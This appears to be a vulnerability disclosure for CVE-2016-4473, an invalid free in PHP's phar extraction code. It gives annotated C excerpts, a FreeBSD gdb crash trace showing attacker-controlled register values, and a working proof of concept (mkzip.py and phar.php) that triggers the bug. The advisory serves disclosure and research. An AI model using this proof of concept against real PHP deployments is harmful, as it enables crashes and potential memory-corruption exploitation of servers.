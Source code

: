 An invalid free (assigned CVE-2016-4473) may occur under certain
conditions when processing phar-compatible archives in php 5.6.22, 7.0.7
and git head:

php-7.0.7/ext/phar/phar_object.c
#+begin_src c
4063 static int phar_extract_file(zend_bool overwrite, phar_entry_info *entry, char *dest, int dest_len, char **error) /* {{{ */
4064 {
....
4071     cwd_state new_state;
....
4084     new_state.cwd = (char*)emalloc(2);                                                                               // (ref:1)
4085     new_state.cwd[0] = DEFAULT_SLASH;
4086     new_state.cwd[1] = '\0';
4087     new_state.cwd_length = 1;
4088     if (virtual_file_ex(&new_state, entry->filename, NULL, CWD_EXPAND) != 0 ||
4089             new_state.cwd_length <= 1) {
....
4099     }
....
4163
4164     if (FAILURE == php_stream_stat_path(fullpath, &ssb)) {
4165         if (entry->is_dir) {
4166             if (!php_stream_mkdir(fullpath, entry->flags & PHAR_ENT_PERM_MASK,  PHP_STREAM_MKDIR_RECURSIVE, NULL)) { // (ref:2)
....
4169                 free(new_state.cwd);                                                                                 // (ref:3)
....
4171             }
4172         } else {
4173             if (!php_stream_mkdir(fullpath, 0777,  PHP_STREAM_MKDIR_RECURSIVE, NULL)) {                              // (ref:4)
....
4176                 free(new_state.cwd);                                                                                 // (ref:5)
....
4178             }
4179         }
4180     }
....
4246 }
#+end_src

~new_state.cwd~ is initially allocated through the internal zend
allocator in ([[(1)]]) and is later reallocated as the file path is resolved
in ~virtual_file_ex~:

php-7.0.7/Zend/zend_virtual_cwd.c
#+begin_src c
1178 CWD_API int virtual_file_ex(cwd_state *state, const char *path, verify_path_func verify_path, int use_realpath) /* {{{ */
1179 {
....
1336     if (verify_path) {
....
1342         tmp = erealloc(state->cwd, state->cwd_length+1);
....
1349         state->cwd = (char *) tmp;
1350
1351         memcpy(state->cwd, resolved_path, state->cwd_length+1);
....
1360     } else {
....
1362         tmp = erealloc(state->cwd, state->cwd_length+1);
....
1369         state->cwd = (char *) tmp;
1370
1371         memcpy(state->cwd, resolved_path, state->cwd_length+1);
....
1373     }
....
1379 }
#+end_src

However, should ~php_stream_mkdir~ fail in ([[(2)]]) or ([[(4)]]), ~cwd~ is
freed by the underlying libc allocator in ([[(3)]]) or ([[(5)]]).

On FreeBSD (ie. jemalloc) with mkdir() failing due to a directory
already existing as a regular file:

#+begin_src sh
$ python mkzip.py
$ gdb711 --args php phar.php out/ 1.zip 2.zip
(gdb) r
Starting program: /usr/home/php/php/bin/php phar.php out/ 1.zip 2.zip

Warning: PharData::extractTo(): Not a directory in /usr/home/php/phar.php on line 14

Program received signal SIGBUS, Bus error.
0x00000008025bde2c in __jemalloc_arena_dalloc_bin_locked (arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, mapelm=<optimized out>) at jemalloc_arena.c:1717

1717        bin->stats.allocated -= size;

(gdb) bt
#0  0x00000008025bde2c in __jemalloc_arena_dalloc_bin_locked (arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, mapelm=<optimized out>) at jemalloc_arena.c:1717
#1  0x00000008025be1cf in __jemalloc_arena_dalloc_bin (chunk=<optimized out>, pageind=<optimized out>, mapelm=<optimized out>, arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, pageind=<optimized out>, mapelm=<optimized out>) at jemalloc_arena.c:1733
#2  __jemalloc_arena_dalloc_small (arena=0x4343434343434341, chunk=0x803800000, ptr=0x0, pageind=<optimized out>) at jemalloc_arena.c:1749
#3  0x00000008025c99c5 in __jemalloc_arena_dalloc (arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, try_tcache=<optimized out>, arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, try_tcache=<optimized out>) at /usr/src/lib/libc/../../contrib/jemalloc/include/jemalloc/internal/arena.h:1005
#4  __jemalloc_idallocx (ptr=<optimized out>, try_tcache=<optimized out>, ptr=<optimized out>, try_tcache=<optimized out>) at /usr/src/lib/libc/../../contrib/jemalloc/include/jemalloc/internal/jemalloc_internal.h:913
#5  __jemalloc_iqallocx (ptr=<optimized out>, try_tcache=<optimized out>, ptr=<optimized out>, try_tcache=<optimized out>) at /usr/src/lib/libc/../../contrib/jemalloc/include/jemalloc/internal/jemalloc_internal.h:932
#6  __jemalloc_iqalloc (ptr=<optimized out>) at /usr/src/lib/libc/../../contrib/jemalloc/include/jemalloc/internal/jemalloc_internal.h:939
#7  __free (ptr=0x803879060) at jemalloc_jemalloc.c:1277
#8  0x0000000000762b93 in phar_extract_file (overwrite=0 '\000', entry=0x803870540, dest=0x803861018 "out/", dest_len=4, error=0x7fffffffc188) at /home/php/php-7.0.7/ext/phar/phar_object.c:4176
#9  0x0000000000762455 in zim_Phar_extractTo (execute_data=0x803813250, return_value=0x8038131f0) at /home/php/php-7.0.7/ext/phar/phar_object.c:4373
#10 0x0000000000b19529 in ZEND_DO_FCALL_SPEC_HANDLER (execute_data=0x803813030) at Zend/zend_vm_execute.h:842
#11 0x0000000000ad22a4 in execute_ex (ex=0x803813030) at Zend/zend_vm_execute.h:417
#12 0x0000000000ad2da5 in zend_execute (op_array=0x80387b000, return_value=0x0) at Zend/zend_vm_execute.h:458
#13 0x0000000000a28609 in zend_execute_scripts (type=8, retval=0x0, file_count=3) at /home/php/php-7.0.7/Zend/zend.c:1427
#14 0x0000000000951045 in php_execute_script (primary_file=0x7fffffffe868) at /home/php/php-7.0.7/main/main.c:2494
#15 0x0000000000c07896 in do_cli (argc=5, argv=0x7fffffffeb48) at /home/php/php-7.0.7/sapi/cli/php_cli.c:974
#16 0x0000000000c06419 in main (argc=5, argv=0x7fffffffeb48) at /home/php/php-7.0.7/sapi/cli/php_cli.c:1344

(gdb) x/i $rip
=> 0x8025bde2c <__jemalloc_arena_dalloc_bin_locked+556 at jemalloc_arena.c:1717>:sub    QWORD PTR [rbx+0x38],rax

(gdb) i r
rax       0x8                   8
rbx       0x4141414141414141    4702111234474983745
rcx       0x42424243            1111638595
rdx       0x0                   0
rsi       0x4343434343434343    4846791580151137091
rdi       0x4343434343434341    4846791580151137089
rbp       0x7fffffffbd70        0x7fffffffbd70
rsp       0x7fffffffbd20        0x7fffffffbd20
r8        0x0                   0
r9        0x0                   0
r10       0x803879010           34418954256
r11       0x8028c12b0           34402472624
r12       0x0                   0
r13       0x803879000           34418954240
r14       0x8028adf44           34402393924
r15       0x8028c1250           34402472528
rip       0x8025bde2c           0x8025bde2c <__jemalloc_arena_dalloc_bin_locked+556 at jemalloc_arena.c:1717>
eflags    0x10206               [ PF IF RF ]
cs        0x43                  67
ss        0x3b                  59
ds        <unavailable>
es        <unavailable>
fs        <unavailable>
gs        <unavailable>
(gdb)
#+end_src


* mkzip.py
#+begin_src python
#!/usr/bin/python
import zipfile

fname = "AAAAAAAAxxxxBBBBCCCCCCCCxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"

with zipfile.ZipFile("1.zip", "w") as z:
    z.writestr(fname, "")

with zipfile.ZipFile("2.zip", "w") as z:
    z.writestr("%s/b/c" % fname, "")
#+end_src


* phar.php
#+begin_src php
<?php
if ($argc < 3) {
    echo "ERROR: $argv[0] dst src\n";
    exit(1);
}

if (is_dir($argv[1]) !== TRUE) {
    mkdir($argv[1]) or die("aborting...\n");
}

for ($i = 2; $i < $argc; $i++) {
    try {
        $phar = new PharData($argv[$i]);
        $phar->extractTo($argv[1]);
    } catch (Exception $e) {
        echo "NOTE: " . $e->getMessage() . "\n";
    }
}
?>
#+end_src
